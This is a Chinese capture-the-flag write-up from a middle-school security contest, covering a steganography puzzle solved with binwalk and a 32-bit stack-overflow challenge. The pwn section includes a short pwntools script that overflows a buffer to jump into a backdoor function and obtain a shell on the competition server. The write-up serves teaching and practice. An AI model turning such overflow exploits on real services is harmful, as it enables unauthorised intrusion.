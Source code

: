 # 第二届全国中学生网络安全竞赛 Writeup
author: ffdy

---
## Misc
#### HiddenImage
010 打开发现图片后面粘连了 zip 文件
zip 文件里有一个 getflag.jpg 文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831222716250.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
Kali 使用 binwalk -e 分离出 getflag.jpg
同样使用 010 查看,发现文件末尾有一段 url 编码 ~~(应该是吧)~~
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831223643425.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
复制到 Google 搜索框回车,得到 flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831223716531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
`flag: flag{h1d3_1m@g3_s0_3Asy}`
#### 问卷题
这个根据心情填就好了 ~~(手动滑稽)~~

----
## Pwn
#### babybabystack
简单的 ROP
checksec 检查发现:
32 位,开了 NX,不能直接执行栈上的数据
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831225607195.png)
用 IDA 反汇编
发现漏洞存在于 main 函数后的 vulnerable_function 函数中的 read 函数上
可以用来覆盖 ebp 控制执行的函数
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190901082109863.png)
看到 _system() 函数,有个 back_door 函数调用
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831225844777.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
back_door 函数直接包含 sh
得到 bin 地址
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831230108963.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
回看 buf 的地址,以 ebp 为索引
无需调试,直接使用偏移量
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831230057302.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
```python
from pwn import *
#p=process('./babybabystack')
p=remote('148.70.206.225',50001)

bin_addr=0x8048569
pay='a'*(0x1c+4)+p32(bin_addr)
p.sendline(pay)

p.interactive()
```
得到 flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019083123091338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
`flag: flag{5t4ck_0v3rF10w_15_u53fu1}`
